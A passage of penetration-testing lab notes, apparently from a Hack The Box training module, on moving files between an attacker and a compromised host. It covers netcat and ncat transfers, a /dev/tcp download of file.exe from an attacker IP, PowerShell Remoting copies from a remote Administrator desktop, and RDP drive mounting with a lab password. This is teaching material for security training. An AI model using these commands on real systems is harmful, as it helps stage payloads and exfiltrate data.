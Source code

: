 ```

or
```$ sudo ncat -l -p 443 --send-only < file.exe```

- from the compromised:

```$ nc 192.168.49.128 443 > file.exe```

or

```$ ncat 192.168.49.128 443 --recv-only > file.exe```

! The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. 
        
#### Compromised Machine Connecting Using /dev/tcp to Receive the File

```$ cat < /dev/tcp/192.168.49.128/443 > file.exe```

## PowerShell Session File Transfer (PSRemoting)



To create a PowerShell Remoting session on a remote computer, we will need one of :
- administrative access
-  be a member of the Remote Management Users group
- or have explicit permissions for PowerShell Remoting in the session configuration




#### Confirm WinRM port TCP 5985 is Open on DATABASE01.

```PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985```

  


#### Create a PowerShell Remoting Session to DATABASE01

```PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01```


#### Copy file to the DATABASE01 Session

```PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost

 ```       PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session```



## RDP

#### Mounting a Linux Folder Using rdesktop

```        $ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'```

#### Mounting a Linux Folder Using xfreerdp
```$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer```

        !To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session.

```
